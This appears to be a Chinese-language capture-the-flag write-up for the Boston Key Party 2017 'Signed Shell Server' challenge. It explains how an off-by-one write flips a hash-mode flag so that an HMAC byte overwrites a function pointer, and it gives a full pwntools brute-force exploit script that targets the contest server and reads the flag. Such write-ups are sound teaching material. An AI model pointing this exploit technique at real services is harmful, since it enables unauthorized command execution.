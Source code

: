 # Boston Key Party 2017: Signed Shell Server (Pwn, 200)

說明：
> I'll only execute shell commands that are authenticated with my hmac-sha1 key. I'll sign a few benign commands for you, but after that, you're on your own!
>
> [sss](sss)

## 解題

接入題目伺服器後，看到兩個選項：1)產生特定指令的簽署；2)執行指令。

```
Welcome to Secure Signed Shell
1) sign command
2) execute command
>_ 1
what command do you want to sign?
>_ ls
signature:
0fcc9e22ff4cec3f5afbaf5906dba086
```

選項(1)執行名為`sign_it()`的function，它可以簽署`ls`、`pwd`、`whoami`或`id`指令。程式可以用MD5或SHA1的HMAC產生簽署，從以上的輸出可以看到伺服器預設是使用MD5。選項(2)會執行`execute_it()`，它會執行擁有正確簽署的指令。

### Out-of-bounds錯誤

程式裡有一個global variable用來設定用MD5還是SHA1，我們稱之為`use_md5`。另外有一個256 byte的array（`buf`）用來暫存輸入的指令，而它的剛好在`use_md5`的前面。

```c
i = read(0, &buf, 256);
buf[i] = 0x0;
```

在`sign_it()`和`execute_it()`裡有這一段程式碼用來輸入指令。若輸入長度為256字元，就會超出`buf`的容量而把`use_md5`改寫為`0x0`。

## Exploit

```c
int execute_it() {
    if (*exec_guy == 0x0) {
            *exec_guy = calloc(36, 1);
            *s_exec_guy = *exec_guy;
            *m_exec_guy = *exec_guy + 0x1;
            *(*s_exec_guy + 0x14) = deny_command;
            *(*s_exec_guy + 0x1c) = exec_command;
    }
    use_md5 = sign_extend_64(*(int8_t *)use_md5 & 0xff);
    exec_guy = *m_exec_guy;
    if (use_md5 == 0x0) {
            exec_guy = *s_exec_guy;
    }
    puts("what command do you want to run?");
    printf(">_ ");
    *(int8_t *)(sign_extend_32(read(0x0, buf, 256)) + 0x602140) = 0x0;
    if ((*(int8_t *)use_md5 & 0xff) != 0x0) {
            hmac = HMAC(EVP_md5(), *key, strlen(*key), buf, strlen(buf), 0x0, hmac_len);
    }
    else {
            hmac = HMAC(EVP_sha1(), *key, strlen(*key), buf, strlen(buf), 0x0, hmac_len);
    }
    memcpy(exec_guy, hmac, hmac_len);
    ...
```

`execute_it()`的開頭有一段程式碼用來設定兩個function pointer，一個是用來在簽署不正確時拒絕執行指令（`deny_command`, `0x00400d36`），另一個則執行簽署正確的指令（`exec_command`, `0x00400d5b`）。在拒絕執行指令的function pointer之前還有一個buffer儲存指令的正確簽署。若`use_md5`的值為`0`，這個buffer的長度會是20 byte，否則會設為19 byte。

若果我們用上面提到的out-of-bounds錯誤更改`use_md5`的值，就可以令`execute_it()`用SHA1產生簽署，SHA1簽署的最後1 byte就會覆寫`deny_command` function pointer的least significant byte，只要把它改為`0x5b`就可以指向`exec_command`執行任意的指令（例如`cat flag`）。可是，我們並沒有HMAC的密鑰，所以只能夠brute-force嘗試不同的長度為256字元的隨機輸入，直至找到一個HMAC-SHA1最後1 byte是`0x5b`的指令。

## 完整解答

[sss.py](sss.py)

```python
from pwn import *
import sys

host = "54.202.7.144"
port = 9875

context(log_level='info')

stopword = "FLAG="
cmd = "echo -n '{}';cat flag; #".format(stopword)
for i in range(255):
    for j in range(3):
        try:
            r = remote(host, port)
            r.recvuntil(">_ ")
            r.sendline("2")
            r.recvuntil(">_ ")
            r.sendline(cmd + chr(i) * (255 - len(cmd)))
            r.recvuntil(">_ ")
            r.sendline("00")
            s = r.recvuntil(stopword, timeout=1)
            if s == "" or s.startswith("wrong signature") or s.startswith("echo"):
                raise EOFError()
            s = r.recvline()
            print "Flag is {}".format(s)
            exit()
        except EOFError:
            r.close()
            print "Next #{}".format(i)
            break
        except PwnlibException:
            r.close()
            print "Retry #{}".format(i)
            continue
```

## Flag

```
bkp{and you did not even have to break sha1}
```